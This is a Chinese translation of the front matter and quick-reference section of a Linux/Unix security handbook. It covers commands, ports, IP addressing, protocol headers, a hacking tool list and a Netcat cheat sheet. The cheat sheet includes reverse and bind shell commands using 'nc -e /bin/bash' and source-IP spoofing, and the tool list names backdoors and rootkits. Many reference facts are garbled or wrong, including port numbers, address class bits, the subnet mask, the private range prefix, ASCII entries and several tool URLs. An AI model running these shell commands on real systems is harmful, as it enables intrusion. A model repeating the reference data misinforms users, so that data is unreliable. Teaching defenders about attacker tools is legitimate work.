# HackNotes - Linux 与 Unix 安全便携式参考

- 学习黑客如何入侵 Linux 和 Unix 系统
- 保护您的系统免受最复杂黑客的攻击
- 获取关于 Linux 和 Unix 安全工具及最佳实践的简洁概述
- 防御高级侵入策略，如缓冲区溢出攻击、端口重定向、网络嗅探等

> “触手可及的虚拟武器库。**HackNotes Linux 和 Unix 安全便携指南**对于忙碌的管理员和顾问来说是一份非常有价值的参考，他们需要简洁且实用的见解，来理解他们面临的威胁以及如何实际利用工具测试环境的安全。”

—Patrick Heim，McKesson Corporation 企业安全副总裁

**HackNotes Linux 和 Unix 安全便携指南**是一本保护 Linux 和 Unix 系统免受攻击的价值实用指南。许多书籍提供了通用的（往往是模糊的）建议，而这本书的风格对攻击方式及其防护方法提供了非常精确的描述。

—Mikhail J. Atallah，普渡大学计算机科学教授，CERIAS

> “一份关于当今系统管理员面临的安全问题的简洁指南。每位系统管理员都应该熟悉 **HackNotes Linux 和 Unix 安全便携指南**中涵盖的内容。对于书中每一个漏洞，作者都提供了保护您网络的常识性准则。对真实世界案例的强调强化了当今威胁的严重性。”

—Snax，The Shmo Group，AirSnort 维护者

Athena Honore
插画
Kathleen Fay Edwards

# 关于作者

## Nitesh Dhanjani

Nitesh Dhanjani 是 Foundstone, Inc. 的信息安全顾问。在 Foundstone 期间，Nitesh 参与了针对各种财富 500 强公司的多种项目，包括网络、主机渗透和安全评估，以及安全架构服务。Nitesh 是《HackNotes: Network Security Portable Reference》（McGraw-Hill/Osborne, 2003）的贡献作者，也是畅销书《Hacking Exposed: Network Security and Solutions》（McGraw-Hill/Osborne, 2003）最新版的作者之一。他还在《Linux Journal》等技术出版物上发表文章。除了写作外，他还教授过 Foundstone 的“终极黑客：专家”和“终极黑客”课程。

在加入 Foundstone 之前，Nitesh 曾担任安永信安全服务的顾问，为许多公司执行攻击和渗透审查。他还开发了用于安永信安全部门内部的网络扫描工具。Nitesh 毕业于普渡大学，获得计算机科学学士和硕士学位。在普渡大学期间，他参与了 CERIAS（信息保证教育与研究中心）开展的多项由 IBM、AT&T 和 Intel 赞助的研究。Nitesh 继续活跃于开源项目、系统编程和 Linux 内核开发。可以通过 books@dhanjani.com 与他联系。

# 关于评审员

## Robert Clugston

Robert Clugston 是 Foundstone 的信息技术顾问。他在系统管理、网络安全和 Web 制作方面拥有六经验。Robert 最初加入 Foundstone 是为了设计和保护 Foundstone 的网站，现在专注于为 Foundstone 的客户提供服务。在加入 Foundstone 之前，Robert 曾担任互联网服务提供商的系统管理员。职责包括部署、维护和保护业务关键系统，涵盖 Web 服务器、路由器、DNS 服务器、邮件服务器以及额外的接入系统。在加入 Foundstone 之前，Robert 曾短时间担任专门从事 Perl/PHP 开发的独立承包商。Robert 拥有 Windows NT MSCE 学位。

# 第一部分

# 黑客技术与防御

- ■ 1 足迹扫描（Footprinting）............................................................... 3

# HackNotes Linux 与 Unix 安全便携参考

## 第二部分 主机加固

设置密码策略 ................................................... 132

## 第三部分 特殊主题

Keypebble VNC Viewer ............................................................................................................................................................................................................................................................................................................ 183

# HackNotes Linux 与 Unix 安全便携参考指南

# 谢谢

如果没有许多人的帮助，这本书就不可能出版。首先，我要感谢 HackNotes 系列的编辑 Mike Horton，他给了我写这本书的机会。还要感谢 McGraw-Hill/Osborne 团队不懈的努力，包括 Jane Brownlow、Athena Honore、Betsy Manini 和 Robert Campbell。

非常感谢来自 Foundstone 的 Robert Clugston，他负责审核本书的技术内容。

还要感谢我的妻子 Deepti，在我写书期间对我提供的巨大帮助。

本页特意留白

# HACKNOTES 系列

McG-Hill/Osborne 为安全专业人士创建了一个全新的便携式参考书系列。这些书籍是快速学习手册，页数控制在合理的范围内，旨在作为真正的便携式参考工具。

HackNotes 系列的目标目标是：

- 提供高质量、精简的、易于获取和使用的安全信息。
- 通过展示黑客和犯罪分子如何利用已知方法入侵系统，以及防御黑客攻击的最佳实践，教你如何保护自己的网络或系统。
- 让初接触每书中涵盖的安全主题的新手快速上手，并提供简洁的知识源。为此，你可能会发现自己经常需要并反复参考它。

HackNotes 系列书籍的设计旨在易于随身携带或放入电脑包中，既不会增加重量，又在使用时不会引起不必要的注意。它们尽可能地使用图表、表格和项目符号，只有在截图对于传达主题观点至关重要时才会使用。最重要的是，为了不让这些方便的便携参考书在你不忙碌的一天中让你负担阅读冗长的文字，我们保持了写作的清晰、简洁且重点突出。

# XVI HackNotes Linux 与 Unix 安全便携参考指南

无论你是信息安全领域的新手，需要有效的起点和基本事实而无需翻阅 400 多页；还是一个资深专业人士，知道将手册作为“外挂大脑”的价值（其中包含大量有用列表、表格和特定细节以便快速确认），或是将其作为对某些不太熟悉的安全主题的方便参考，HackNotes 系列都将帮助你达到目标。

# 系列核心元素与图标

我们尽力以最逻辑的方式组织并呈现本书。我们使用了紧凑的形式，并在标记主要标题主题处放置了页面页签。由于“参考中心”（Reference Center）包含了你想要快速方便访问的信息和表格，为了方便起见，它被战略性地放置在书正中间的蓝色页上。

# 视觉线索

书中使用的图标使得导航非常容易。每种黑客技术或攻击都用特殊的剑图标标出。

> 此图标代表一种黑客技术或攻击

> 详细了解黑客入侵漏洞系统时使用的各种技术和战术。

每种黑客技术或攻击在可能的情况下都有相应的防御措施，该措施也有自己的特殊盾牌图标。

- 此图标代表应对黑客技术和攻击的防御步骤

> 详细了解如何防御所展示的客技术或攻击的简洁细节。

书中还使用了其他特殊元素。这个“i”图标代表应该记住的信息和提示。

这个火焰图标代表应该注意的重要信息或问题。

# 命令与代码列表

在整书中，黑客的输入将以**粗体**显示，例如：

此外，在书中常见的 Linux 和 Unix 命令和参数将通过等宽字体区分，例如：

```bash
whoami
root
```

# 听取您的反馈

诚心感谢你对本书的关注。我们希望你发现它们有用且有趣，并欢迎你对改进我们提出任何意见。请将反馈发送至 feedback@notes.com。

本页特意留白

# 引言

本书将教你黑客是如何思考的，以便你保护你的 Unix 和 Linux 系统免受攻击。为了阻止攻击，你需要了解他们的过程、技术和战术。Unix 和 Linux 操作系统的强大特性是一把双刃剑。在许多情况下，内核代码是免费获取的，管理员可以根据自己的需要对其进行更改。某些发行版关闭了所有可能的服务，而另一些则开启了所有可能的服务。请考虑各种 Unix 和 Linux 发行版。黑客了解管理这些复杂性，并确切如何滥用它们。本书将让你对精湛的技术感到惊讶，并教你如何防御它们。

# HackNotes Linux 与 Unix 安全便携参考


不要担心黑客获取书中介绍的内容。他们已经知道了。本书的意图是暴露今天使用的战术，以便你学会防御。一旦你理解了黑客如何思考以及他们入侵系统的各种方法，优势将属于你。

# 本书结构

本书分为四个主要部分：

## 第一部分：黑客技术与防御

书的第一部分遵循今天黑客常用的黑客方法论。书中还介绍了这些章节描述的所有黑客技术的防御措施。

- **第一章** 我们首先理解黑客方法论的第一步逻辑步骤。本章将教你如何从搜索引擎、注册记录、DNS 记录等获取公开信息。在黑客从公开渠道获取了所有可能的信息后，他们将进入实际的网络和主机识别与扫描。
- **第二章** 本章教你如何确定网络上的哪些主机是活跃的以及哪些端口是开放的。讨论了各种端口扫描方法，以及系统识别技术和工具。
- **第三章** 学习黑客如何识别远程主机上运行的应用程序和服务。本章将向你展示入侵者用于枚举用户名和远程服务的许多不同工具和方法。
- **第四章** 本章暴露了黑客获取漏洞主机访问的事实和战术。学习黑客使用的最精的技术，例如暴力破解、嗅探、中间人攻击、密码破解、端口重定向、针对配置错误的利用、缓冲区溢出以及许多其他软件漏洞。
- **第五章** 通常，利用特定漏洞会获得黑客对特权用户或系统账户的访问。在这种情况下，黑客的下一个逻辑步骤是获取超级用户（root）权限。本章向你展示了黑客尝试获取更高权限的多种方法。
- **第6章** 一旦主机被攻破，黑客就会想要隐藏其踪迹并确保对主机的持续特权访问。本章将向你展示黑客如何通过清理日志文件来隐藏踪迹，以及黑客如何在被攻破的主机上安装木马、后门和根内核。

## 第二部分：主机加固

本书的第二部分侧重于系统管理员可以采取的许多步骤，以加固默认系统配置和策略。

### 第7章
本章讨论了与默认应用程序和服务器配置加固相关的的重要配置问题。强烈建议所有系统管理员考虑本章提出的建议，以防止入侵者利用脆弱的系统策略和配置。

### 第8章
恶意用户和黑客经常利用不当的用户和文件系统权限。本章将向你介绍 Unix 和 Linux 文件权限，并教你采取哪些精确的步骤以防止由于用户和文件系统权限不当导致被攻破。

### 第9章
每位系统管理员都应该执行正确的系统事件日志记录。本章教你如何启用和配置日志服务，以及如何正确设置日志文件的权限以防止被篡改。此外，保持最新的安全补丁也非常重要，本章提供了获取这些补丁的供应商网站链接。

## 第三部分：特殊主题

本书的第三部分汇总了一些精彩的话题，从 Nessus 扫描器的插件到无线攻击，再到使用 Zaurus PDA 进行攻击。

### 第10章
`Nessus` 是目前最流行的漏洞扫描工具之一。它是免费的且设计上高度模块化。本章将教你如何使用 `NASL`（Nessus 攻击脚本语言）为 `Nessus` 扫描器编写自定义漏洞检查插件。

### 第11章
学习黑客如何渗透 `802.11` 无线网络。本章讲解了 `WEP` 协议的弱性，并介绍了黑客用于利用无线网络的工具。此外，本章还提供了关于如何更好地保护无线网络的建议和指导。

### 第12章
`Sharp Zaurus` PDA 设备运行嵌入版本的 Linux 操作系统。本章将向你展示适用于 `Zaurus` PDA 的各种可用安全工具，以及黑客如何轻松地使用它们来渗透无线网络。

## 读者

本书的制作投入了巨大的心血。我希望你发现其中包含材料是有见且实用的。最重要的是，我希望你将书中呈现的信息用于善意，保护并确保你的系统和网络免受最复杂的黑客的攻击。

- 邮件列表 ........................................................................ RC 19
- 会议与活动 ........................................................ RC 19

本节提供了请求最多且实用的材料。记住，当你需要快速获取常用命令、常用端口、在线资源、IP 地址和实用的 `Netcat` 命令等主题的信息时，只需翻到这一章。此外，还提供了 ASCII 码、HTTP 服务器响应表以及重要文件的权限。

### 常用命令

以下是大多数 Unix 和 Linux 发行版精简安装中常见的最常用命令列表。如需了解特定命令的更多信息，请通过输入 `command` 查看其手册页。

| 命令 | 描述 |
| --- | --- |
| `alias` | 设置并查看命令别名。 |
| `arch` | 打印机器架构。 |
| `awk` | 模式扫描和处理语言。 |
| `bash` | Bourne Again Shell。 |
| `bg` | 将在前台运行的进程移到后台。 |
| `biff` | 当邮件到达时通知。 |
| `cat` | 合并并打印文件。 |
| `cd` | 切换目录。 |
| `chage` | 更改用户密码过期信息。 |
| `chgrp` | 组所有权。 |
| `chmod` | 修改文件权限。 |
| `chown` | 更改文件和组所有者。 |
| `chroot` | 在特殊的根目录下运行命令。 |
| `chsh` | 更改登录 shell。 |
| `clear` | 清除终端屏幕。 |
| `cp` | 复制文件和目录。 |
| `crontab` | 维护 crontab 文件。 |

#### 常用命令 RC 3

| 命令 | 描述 |
|---|---|
| `csh` | C shell。 |
| `cut` | 删除文件中每行的部分。 |
| `date` | 打印或设置系统日期和时间。 |
| `dd` | 转换并复制文件。 |
| `df` | 打印文件系统磁盘使用情况。 |
| `diff` | 查找文件之间的差异。 |
| `dig` | DNS（域名系统）查询工具。 |
| `dmesg` | 打印系统缓冲区中的诊断信息。 |
| `dnsdomainname` | 显示系统的 DNS（域名系统）域名。 |
| `domainname` | 显示系统的 NIS（网络信息系统）或 YP（黄页）名称。 |
| `du` | 估算文件空间使用情况。 |
| `echo` | 显示一行文本。 |
| `env` | 在修改的环境中运行程序。 |
| `false` | 以失败的状态码退出。 |
| `fdisk` | 磁盘分区表操。 |
| `fg` | 将在后台运行的进程移到前台。 |
| `file` | 确定文件类型。 |
| `find` | 在目录层次中搜索文件。 |
| `free` | 显示空闲和已用内存。 |
| `ftp` | FTP 客户端。 |
| `fuser` | 识别使用文件或套接字的进程。 |
| `gcc` | GNU C 和 C++ 编译器。 |
| `grep` | 打印匹配给定模式的行。 |
| `groupadd` | 创建新组。 |
| `groupdel` | 删除组。 |
| `groupmod` | 修改组。 |
| `groups` | 打印用户所属的所有组。 |

参考常用命令

#### RC 4 参考中心

| 命令 | 描述 |
|---|---|
| `gunzip` | 解压缩使用 Lempel 编码的文件。 |
| `gzip` | 使用 Lempel 编码压缩文件。 |
| `host` | DNS（域名系统）查询工具。 |
| `hostname` | 显示或设置主机名。 |
| `id` | 打印真实有效用户 ID 和组 ID。 |
| `ifconfig` | 配置网络接口。 |
| `kill` | 终止进程。 |
| `ksh` | Korn shell。 |
| `last` | 显示最后登录用户列表。 |
| `lastlog` | 显示账户最后登录时间。 |
| `ln` | 在文件创建链接。 |
| `ls` | 列出目录内容。 |
| `mail` | 发送和接收邮件。 |
| `man` | 格式化并显示手册页。 |
| `mesg` | 控制终端写入权限。 |
| `mkdir` | 创建目录。 |
| `more` | 逐屏显示文件内容。 |
| `mount` | 挂载文件系统。 |
| `mv` | 移动并重命名文件和目录。 |
| `netstat` | 打印网络连接、路由表、接口统计、伪装连接和组播成员。 |
| `nice` | 以修改的调度优先级运行程序。 |
| `nslookup` | 查询域名服务器。 |
| `passwd` | 更改登录和密码属性。 |
| `ping` | 向网络主机发送 ICMP ECHO 请求。 |
| `ps` | 报告进程状态。 |
| `pwd` | 打印工作目录名称。 |
| `quota` | 显示磁盘使用情况和限制。 |

参考常用命令

#### 常用命令 RC5

| 命令 | 描述 |
| --- | --- |
| `quotaoff` | 关闭文件系统配额。 |
| `quotaon` | 开启文件系统配额。 |
| `repquota` | 总结文件系统的配额。 |
| `rm` | 删除文件或目录。 |
| `rmdir` | 删除空目录。 |
| `route` | 显示或操作路由表。 |
| `rpcinfo` | 报告 RPC（远程过程调用）信息。 |
| `sed` | 流式编辑器。 |
| `setquota` | 设置磁盘配额。 |
| `showmount` | 显示 NFS（网络文件系统）的挂载信息。 |


| `shutdown` | 关闭系统。 |

| `sleep` | 延迟指定的时间。 |

| `sort` | 对文件行进行排序。 |

| `strace` | 跟踪系统调用和信号。 |

| `strings` | 输出文件中中的可打印字符。 |

| `su` | 使用替换的用户和组 ID 运行 shell。 |

| `tail` | 输出文件的最后部分。 |

| `tar` | 归档工具。 |

| `tcsh` | 具有文件名补全和命令编辑功能的 C shell。 |

| `telnet` | Telnet 客户端。 |

| `tftp` | TFTP（简单文件传输协议）客户端。 |

| `traceroute` | 打印数据包通往目标主机经过的路径。 |

| `true` | 以表示成功的状态码退出。 |

| `umount` | 卸载文件系统。 |

| `uname` | 打印系统信息。 |

| `useradd` | 创建新用户。 |

| `userdel` | 删除用户账户。 |

| `uptime` | 打印系统运行了多久。 |

| `vi` | 编辑器。 |

| `w` | 显示登录的用户及其正在的操作。 |

参考中心常用命令

| 命令 | 描述 |

| --- | --- |

| `wall` | 向每个用户的终端发送消息。 |

| `wc` | 打印文件的字节数、单词数和行数。 |

| `whereis` | 定位命令的二进制文件、源码和手册页文件。 |

| `which` | 显示命令的完整路径。 |

| `who` | 显示登录的用户。 |

| `whoami` | 打印有效用户 ID。 |

| `write` | 向另一个用户发送消息。 |

| `ypdomainname` | 显示或设置系统的 NIS（网络信息系统）或 YP（黄页）域名。 |

# 常用端口

以下是与最常用的 Unix 和 Linux 服务对应的端口名称和服务列表。

> 如需更完整的列表，请参阅 `/etc/services` 文件。

| 服务 | 端口 |

| --- | --- |

| Echo | 7 |

| Daytime | 13 |

| qotd (每日格言) | 17 |

| FTP-data | 20 |

| FTP | 21 |

| SSH | 22 |

| Telnet | 23 |

| SMTP (简单邮件传输协议) | 25 |

| Time server | 37 |

| Whois | 43 |

| DNS (域名系统) | 53 |

| TFTP (简单文件传输协议) | 69 |

| Finger | 79 |

| HTTP (超文本传输传输协议) | 80 |

| POP2 (邮局协议 2) | 109 |

| POP3 (邮局协议 3) | 110 |

| Portmapper | 111 |

| Ident | 113 |

| NNTP (网络新闻传输协议) | 119 |

| NTP (网络时间协议) | 123 |

| Samba | 137–139 |

| IMAP2 (Internet消息访问协议) | 143 |

| SNMP (简单网络管理协议) | 161 |

| 服务 | 端口 |

| --- | --- |

| BGP (边界网关协议) | 179 |

| IMAP3 (Internet消息访问协议) | 220 |

| LDAP (轻级目录访问协议) | 389 |

| HTTPS (安全超文本传输协议) | 443 |

| rlogin | 513 |

| rsh | 514 |

| Line printer (lpr) | 515 |

| Talk | 517 |

| Time server | 525 |

| NNTP (网络新闻传输协议) | 563 |

| IPP (打印协议) | 631 |

| LDAPS (安全轻级目录访问协议) | 636 |

| IMAPS (安全消息访问协议) | 993 |

| POP3 (安全邮局协议) | 995 |

| NFS (网络文件系统) | 2049 |

| MySQL | 3300 |

| VNC (虚拟计算) | 5900 |

| SSH (安全外壳) | 5900+ |

| X1 | 6063 |

| XFS (安全文件系统) | 7100 |

# IP 地址

本节提供了关于 IP 地址的详细信息，例如 TCP 和 UDP 协议头。

### 点进制表示法

IP 地址长度为 32 位，例如：

```
11000000 10101000 00000001 00000001
```

为了便于读读，IP 地址使用点进制表示，例如：

```
192.168.1.1
```

### 类

IP 地址被分为五类，分配给不同规模的网络。

### A 类

A 类分配给具有大量主机机的大型组织。注意 A 类地址经常被浪费。

| 类 | 位数 |

| --- | --- |

| 0 | 8 |

- **第一个字节**：始终为 0。

- **最大网络数**：由第一个字节表示。因此可能有 $2^{24}-2=16,777,214$ 个主机。

### B 类

B 类分配给具有大量网络和主机的组织。

| 类 | 位数 |

| --- | --- |

| 01 | 16 |

- **第一个字节**：前两位为 01。

- **最大网络数**：由前两个字节表示。因此可能有 $2^{14}=16,384$ 个 B 类网络。

### C 类

C 类用于具有少量主机的组织。

| 类 | 位数 |

| --- | --- |

| 010 | 24 |

- **第一个字节**：前三位为 010。

- **最大网络数**：由第一个、第二个和第三个字节表示。因此可能有 $2^{21}=2,097,152$ 个 C 类网络。

- **每个网络最大主机**：由最后一个字节表示。因此每个网络可能有 $2^8-2=254$ 个主机。

### D 类

D 类是一个预留类，用于向一组主机发送组播消息。

| 类 | 位数 |

| --- | --- |

| 1110 | 4 |

- **第一个字节**：范围从 224 到 239。前四位为 1, 1, 1 和 0。

### E 类

E 类是一个预留类。互联网上没有分配属于该类的 IP 地址。

| 类 | 位数 |

| --- | --- |

| 11110 | 5 |

- **第一个字节**：范围从 240 到 255。前五位为 1, 1, 1, 1 和 0。

### 子网掩码

网络地址和主机地址通过使用子网掩码来识别。子网掩码是匹配给定地址网络位序列。例如，以下是 B 类 IP 地址的网络掩码：

```
11111111 11111111 00000000 00000000
```

前面的掩码在点进制表示中为 255.255.255.0。

### CIDR (无类域间路由)

由于互联网的巨大增长，上述列出的五个 IP 类不足以适应所需的网络方案。

CIDR 地址是为了满足这种增长的需求设计的，采用以下表示法：

```
PREFIX/mask
```

其中 `PREFIX` 是 IP 地址前缀，`mask` 是掩码的长度。例如：

```
192.168.1.0/24
```

在这里，`PREFIX` 长度为 24 位，而后缀是剩余 8 位。因此，此 CIDR 类将包含以下地址：192.168.1.0–192.168.1.255。

### 回环

以下范围被称为“回环”范围：

```
127.0.0.0/8
```

该范围用于指定本地主机的回环地址。发送到此范围内地址的数据包将返回主机。注意，目标为回环范围地址的数据包不会传播硬件网络设备，因此不会被放在物理网络线上。

### 私有地址

互联网分配数字机构 (IANA) 为私有网络保留了以下三个 IP 段：

- 10.0.0.0–10.255.255.255 (CIDR 表示法: 10.0.0.0/8)

- 172.16.0.0–172.31.255.255 (CIDR 表示法: 172.16.0.0/16)

- 192.168.0.0–192.168.255.255 (CIDR 表示法: 192.168.0.0/16)

## 协议头

RFC（请求意见）文档提供了 TCP/IP 协议实现的详细信息。这些文档包含协议头信息，这里列出了了一些示例。

### IP（Internet协议）头部

以下表示了 IP 头的布局。头部顶部的数字每个代表一个字节。

### IP 地址分配 RC 13

| 0 1 2 3 |

| 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 |

| +------------------------------------------------------ |

| 版本 (Version) | 头部长度 (IHL) | 服务类型 (Type of Service) | 总长度 (Total Length) |

| +------------------------------------------------------ |


| 标识符 (Identification) | 标志 (Flags) | 分片偏移 (Fragment Offset) |

| +------------------------------------------------------ |

| 生存时间 (Time to Live) | 协议 (Protocol) | 头部校验和 (Header Checksum) |

| +------------------------------------------------------ |

| 源地址 (Source Address) |

| +------------------------------------------------------ |

| 目的地址 (Destination Address) |

| +------------------------------------------------------ |

| 选项 (Options) | 填充 (Padding) |

| +------------------------------------------------------ |

通常，IP 头部不包含选项（Options）字段，因此长度为 20 字节。当存在选项字段时，其实际长度由总长度（Total Length）字段表示，该字段包含整个数据包（头部和数据）的长度。详情请参见 RFC 791：http://www.faqs.org/rcfs/rfc791.html。

### TCP（传输控制协议）头部

数据包都封装在 IP 数据包的数据（Data）字段中，该字段紧随 IP 头部之后。以下是 TCP 部的布局。请注意头部顶部的数字每个代表一个字节。

| 0 1 2 3 |

| 0 1 2 3 4 5 6 7 8 9 0 1 2 3 4 5 6 7 8 9 0 |

| +------------------------------------------------------ |

| 源端口 (Source Port) | 目的端口 (Destination Port) |

| +------------------------------------------------------ |

| 序列号 (Sequence Number) |

| +------------------------------------------------------ |

| 确认序列号 (Acknowledgment Number) |

| +------------------------------------------------------ |

| 数据 (Data) | U A P R S F | 窗口 (Window) |

| 偏移 (Offset) | 预留 (Reserved) | C R S S Y I |

| | G K H T N N |

| +------------------------------------------------------ |

| 校验和 (Checksum) | 紧急指针 (Urgent Pointer) |

| +------------------------------------------------------ |

| 选项 (Options) | 填充 (Padding) |

| +------------------------------------------------------ |

| 数据 |

| +------------------------------------------------------ |

详情请参见 RFC 793：http://www.faqs.org/rcfs/rfc793.html。

### UDP（用户数据报协议）头部

与 TCP 类似，每个 UDP 数据包也封装在 IP 头部的数据字段中。以下是 UDP 部的布局。头部顶部的数字每个代表一个字节。

```
0        7 8      15 16    23 24    31
+--------------------------------+
|   源端口    | 目的端口    |
|      Port      |      Port       |
+--------------------------------+
|      长度      |    校验和    |
+--------------------------------+
           数据字节 . ..
```

详情请参阅 RFC 768：http://www.faqs.org/rfcs/rfc768.html。

# 在线资源

除了书中提到的各种在线资源外，本节还包含了额外资源的链接，这些资源有助于跟进安全领域的最新动态。

> 记得检查 http://www.hacknotes.com/ 以获取最新的安全资源。

# 黑客工具

下表列出了当今黑客最常用的黑客工具。表中所提到的大多数工具在本书的第一部分中均有使用，书中也提供了这些工具的下载地址。

| 名称 | 描述 | 位置 |
|---|---|---|
| Airsnort | 流行的 WEP 破解器 (802.11b) | http://airsnort.shmo.com/ |
| Adore | 后门程序 | http://www.team-teso-teso/releases.php |
| Amap | 识别远程应用程序 | http://www.thc.org/releases.php |
| Cheops | 基于 GUI 的工具，用于识别网络上主机的 TCP 流量信息 | http://www.marko.net/cheops/ |
| Desproxy | 通过 Web 探测隧道 TCP 流量的命令行工具 | http://desproxy.sourceforge.net/ |
| Dsniff | 一套网络嗅探工具 | http://monkey.org/-/dungsong/dsniff/ |
| Ethereal | 基于 GUI 的网络嗅器 | http://www.ethereal.com/ |
| Ettercap | 基于 ncurses 的网络嗅器 | http://ettercap.sourceforge.net/ |
| Fata-Jack | 对 802.11 网络执行拒绝服务攻击 | http://www.loud-fat-bloke.com/w80211.html |
| Firewalk | 一种类似于 tracer 的工具，用于确定网关访问控制列表 | http://www.packetfactory.net/projects/firewall/ |
| Fragoute | 拦截、修改和重写网络流量 | http://www.monkey.org/-/dungsong/fragoute/ |
| Hping2 | 命令行 TCP/IP 数据包组装器和分析器 | http://www.hping.org/ |

## 16 参考中心

| 名称 | 描述 | 位置 |
|---|---|---|
| Hunt | 执行 TCP 劫持 | http://lin.fsid.cvut.cz/-kra/index.html#HUNT |
| Hydra | 主动密码暴力破解器 | http://www.thc.org/releases.php |
| John | 被动密码破解器 | http://www.thc.org/releases.php |
| Kismet | 网络嗅器 | http://www.kismet.org/ |
| Loki | 密码嗅器 | http://www.loki.org/ |
| Nmap | 端口扫描器 | http://nmap.org/ |
| OpenSSL | SSL 和 TLS | http://www.openssl.org/ |
| Snmpwalk | SNMP 查询 | http://www.snmp.org/ |
| Snort | 入侵检测系统 | http://www.snort.org/ |
| Spike | Web 代理 | http://www.spike.org/ |
| Stunnel | 创建安全隧道 | http://www.stunnel.org/ |
| Tcpdump | 数据包嗅探器 | http://www.tcpdump.org/ |
| Tornkit | Rootkit 工具 | http://www.tornkit.org/ |
| 名称 | 描述 | 位置 |
|---|---|---|
| Wget | 命令行客户端 | http://wget.org/ |
| Airirc | 破解 802.11 | http://www.airirc.com/ |
| Vuln | 漏洞列表 | http://www.vulncheck.org/ |
| Wiresh-ng | 命令行工具 | http://www.wi.com/ |


# RC 20 参考中心

## 远程工具

| Xprobe | 远程工具 | http://www.xprobe.org/ |
| Xremote | 远程工具 | http://www.xremote.org/ |
| Xscan | 远程工具 | http://www.xscan.org/ |
| Xwin | 远程工具 | http://www.xwin.org/ |
| Vncrack | 暴力破解 | http://www.vncrack.org/ |
| Zebedee | 安全隧道 | http://www.zebedee.org/ |

## 邮件列表

下表提供了热门安全邮件列表的链接。订阅这些列表是一个好主意，因为它们会及时发布最新的公告和漏洞信息。

| 描述 | 资源 |
|---|---|
| Bugtraq, Pen-test, Web 应用安全以及许多列表 | http://securityfocus.com/archive |
| CERT 告邮件列表 | http://www.cert.org/contact_cert/certmallist.html |
| SANS（系统管理员、审计、网络、安全）通讯报 | http://www.sans.org/sansnews |

## 会议与活动

安全会议在世界各地的地点举行，领域的专家将在会上展示计算机安全领域的最新动态。下表包含了热门安全会议的列表。

| 描述 | 资源 |
|---|---|
| Blackhat | http://www.blackhat.com/ |
| DEF CON | http://www.defcon.org/ |
| SANS (系统管理员、审计、网络、安全) | http://www.sans.org/ |
| CSI (计算机安全协会) | http://www.gocsi.com/ |
| RSA | http://www.rsasecurity.com/company/events/index.html |

## 有用的 NETCAT 命令

Netcat 是一种使用 TCP 和 UDP 协议在网络上读写数据的命令行工具。由于它可以执行许多不同的功能，因此它被称为“网络界的瑞士军刀”。下表提供了最实用的 Netcat 命令的快速使用指南。

> Netcat 默认使用 TCP 协议。在下表中的许多命令可以使用 `-u` 标志来让 Netcat 使用 UDP 代替 TCP。

| 描述 | 命令 |
| --- | --- |
| 连接到远程主机上的端口 | `nc remote_host <port>` |
| 连接到远程主机上的多个端口 | `nc remote_host <port>...<port>`<br>例如：<br>`nc www.somecompanyanample.com 21 25 80` |
| 监听端口以等待传入连接 | `nc -v -l -p <port>` |
| 连接到远程主机并提供 bash shell 服务 | `nc remote_ip <port> -e /bin/bash`<br>注意：Netcat 默认不支持 `-e` 标志。要使 Netcat 支持 `-e` 标志，必须使用 `D__SECURITY_HOLE` 选项重新编译 |
| 监听端口并在连接时提供 bash shell 服务 | `nc -v -l -p <port> -e /bin/bash`<br>注意：Netcat 默认不支持 `-e` 标志。要使 Netcat 支持 `-e` 标志，必须使用 `DAGING_SECURITY_HOLE` 选项重新编译 |
| 对远程主机进行端口扫描 | `nc -v -z remote_host <port>-<port>`<br>使用 `-l` 标志来设置延迟间隔：<br>`nc -i <seconds> -v -z remote_host <port>-<port>` |
| 将命令输出通过传输到 netcat 请求 | `<command> | nc remote_host <port>`<br>例如：<br>`echo "GET / HTTP/1.0`[enter]`[enter]" | nc www.somecompanyanample.com 80` |
| 使用源路由连接到远程主机上的端口 | `nc -g <gateway> remote_host <port>`<br>注意：可以使用 `-g` 标志指定最多八个高点。使用 `-G` 标志指定源路由指针 |

## 有用的 Netcat 命令

| 描述 | 命令 |
|---|---|
| 伪造 IP 地址 | 使用 `-s` 标志伪造源 IP 地址：`nc -s spoofed_ip remote_host port`。此命令将导致远程主机响应伪造的 IP 地址。`-s` 标志可以与表所示的大多数命令一起使用。 |
| 传输文件 | 在服务器主机上：`nc -v -l -p <port> <file>`<br>在客户端主机上：`nc -v <server_host> <port> <file>`<br>客户端主机也可以监听端口以接收文件。要实现这一点，请在客户端主机上运行以下命令：`nc -v -l -p <port> > file`<br>然后在服务器主机上运行以下命令：`nc -v <client_host> <port> < file` |

## ASCII 表

ASCII（美国信息交换标准代码）字符集包含 128 条目，由控制代码、字母、数字和标点符号组成。下表表示了十进制、十六进制和八进制表示的 ASCII 集合。

| 十进制 | 十六进制 | 八进制 | 字符 |
|---|---|---|---|
| 0 | 00 | 000 | NUL (空) |
| 1 | 01 | 001 | SOH (标题开始) |
| 2 | 02 | 002 | STX (文本开始) |
| 3 | 03 | 003 | ETX (文本结束) |
| 4 | 04 | 004 | EOT (传输结束) |
| 5 | 05 | 005 | ENQ (查询) |
| 6 | 06 | 006 | ACK (确认) |
| 7 | 07 | 007 | BEL (铃声) |
| 8 | 08 | 010 | BS (退格) |
| 9 | 09 | 011 | TAB (水平制表) |
| 10 | 0a | 012 | LF (换行) |
| 11 | 0b | 013 | VT (垂直制表) |
| 12 | 0c | 014 | FF (换页) |
| 13 | 0d | 015 | CR (回车) |
| 14 | 0e | 016 | SO (换出) |
| 15 | 0f | 017 | SI (换入) |
| 16 | 10 | 020 | DLE (数据链路转逸) |
| 17 | 11 | 021 | DC1 (设备控制 1) |
| 18 | 12 | 022 | DC2 (设备控制 2) |
| 19 | 13 | 023 | DC3 (设备控制 3) |
| 20 | 14 | 024 | DC4 (设备控制 4) |
| 21 | 15 | 025 | NAK (否定确认) |
| 22 | 16 | 026 | SYN (同步) |
| 23 | 17 | 027 | ETB (传输块结束) |
| 24 | 18 | 030 | CAN (取消) |
| 25 | 19 | 031 | EM (媒体结束) |
| 26 | 1a | 032 | SUB (替换) |
| 27 | 1b | 033 | ESC (逸逸) |
| 28 | 1c | 034 | FS (文件符) |
| 29 | 1d | 035 | GS (分组符) |
| 30 | 1e | 036 | RS (记录符) |
| 31 | 1f | 037 | US (单位符) |
| 32 | 20 | 040 | 空格 |
| 33 | 21 | 041 | ! |
| 34 | 24 | 042 | * |
| 35 | 23 | 043 | # |
| 36 | 24 | 044 | $ |
| 37 | 25 | 045 | % |
| 38 | 26 | 046 | & |
| 39 | 27 | 047 | ' |
| 40 | 28 | 050 | ( |
| 41 | 29 | 051 | ) |
| 42 | 2a | 052 | * |
